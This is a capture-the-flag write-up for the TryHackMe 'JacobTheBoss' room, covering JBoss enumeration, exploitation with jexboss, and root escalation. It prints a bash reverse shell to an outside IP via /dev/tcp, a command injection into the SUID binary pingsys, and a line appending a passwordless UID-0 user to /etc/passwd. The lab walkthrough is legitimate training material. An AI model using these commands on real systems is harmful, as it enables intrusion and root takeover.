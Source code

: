 # 58 - JacobTheBoss (jboss exploitation)

Room Link --> [https://tryhackme.com/room/jacobtheboss](https://tryhackme.com/room/jacobtheboss)

\*First of all, add the `jacobtheboss.box` address to your hosts file.

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.203.6 -p- -T4 -T5 -sV

22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
1090/tcp  open  java-rmi     syn-ack Java RMI
1098/tcp  open  java-rmi     syn-ack Java RMI
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
8083/tcp  open  http         syn-ack JBoss service httpd
39195/tcp open  unknown      syn-ack
42774/tcp open  java-rmi     syn-ack Java RMI
43179/tcp open  unknown      syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://jacobtheboss.box -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403,404 -x php,txt,db,sql,ini

/index.php
/themes
/public
/admin
/LICENSE
/CHANGELOG
/CREDITS
/locales
```
{% endcode %}

Visiting port 8080

[http://jacobtheboss.box:8080/](http://jacobtheboss.box:8080/jmx-console/HtmlAdaptor?)

### Initial Access

I searched for the jboss exploit, and hacktricks rediected me to this [link](https://github.com/joaomatosf/jexboss).

Clone the repo and run the script.

```bash
python3 jexboss.py -u http:///jacobtheboss.box:8080/

# and got a limited shell.
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Getting a better shell

Setup NC listener and run this in the restricted shell.

```bash
Shell> /bin/bash -i > /dev/tcp/10.18.88.214/4242 0<&1 2>&1
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Shell is a bit stable now.

### Priv Esc

{% code overflow="wrap" lineNumbers="true" %}
```bash
[jacob@jacobtheboss ~]$ finfind / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
[jacob@jacobtheboss ~]$
```
{% endcode %}

That `/usr/bin/pingsys` is an interesting binary. @ ways to exploit it:

#### Option 1

We enter the below cmd and got root.

```bash
[jacob@jacobtheboss ~]$ /usr/bin/pingsys '10./usr/bin/pingsys '10.10.203.6; /bin/bash'
/usr/bin/pingsys '10.10.203.6; /bin/bash'
PING 10.10.203.6 (10.10.203.6) 56(84) bytes of data.
64 bytes from 10.10.203.6: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 10.10.203.6: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 10.10.203.6: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 10.10.203.6: icmp_seq=4 ttl=64 time=0.029 ms

--- 10.10.203.6 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.014/0.026/0.034/0.008 ms
[root@jacobtheboss ~]# 


```

#### Option 2

In this command below, “0” is the UID of the root user, so adding a user with the UID of “0” will give that user root privileges. This user will have the username of “dking” and an empty password:

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/bin/pingsys ‘10.10.244.174; echo dking::0:0:pwned by d31ng:/root/root:/bin/bash >> /etc/passwd
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*CRQ5jvlqgT95SoEsiJg6JQ.png" alt="" height="210" width="700"><figcaption></figcaption></figure>

Done!

